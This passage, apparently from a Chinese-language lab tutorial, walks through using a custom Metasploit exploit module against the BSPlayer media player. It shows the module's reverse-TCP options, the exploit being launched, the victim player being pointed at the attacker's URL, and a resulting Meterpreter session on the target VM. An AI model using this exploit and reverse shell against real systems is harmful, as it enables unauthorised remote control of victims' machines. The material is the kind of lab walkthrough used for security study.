 ```
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.109.137  yes       The listen address (an interface may be specified)
   LPORT     8888             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Generic


msf exploit(windows/masteringmetasploit/bsplayer_attack_by_binghe) > exploit
[*] Exploit running as background job 0.

[*] Started reverse TCP handler on 192.168.109.137:8888 
msf exploit(windows/masteringmetasploit/bsplayer_attack_by_binghe) > [*] Started service listener on 192.168.109.137:8080 
[*] Server started.
```

## 打开Bsplay并设置打开的URL

打开Bsplay并将URL设置为http://192.168.109.137:8080,点击确定按钮

![img](https://img-blog.csdnimg.cn/20190117181414585.png)

![img](https://img-blog.csdnimg.cn/20190117181421865.png)

![img](https://img-blog.csdnimg.cn/2019011718143024.png)

## 查看Kali终端结果

此时，我们切换到Kali下查看结果，输出如下：

```
[*] Client Connected
[*] Client Connected
[*] Sending stage (179779 bytes) to 192.168.109.141
meterpreter > ifconfig

Interface  1
============
Name         : MS TCP Loopback interface
Hardware MAC : 00:00:00:00:00:00
MTU          : 1520
IPv4 Address : 127.0.0.1


Interface 65539
============
Name         : VMware Accelerated AMD PCNet Adapter
Hardware MAC : 00:0c:29:5d:8e:d4
MTU          : 1500
IPv4 Address : 192.168.109.141
IPv4 Netmask : 255.255.255.0


Interface 65540
============
Name         : Bluetooth �s
```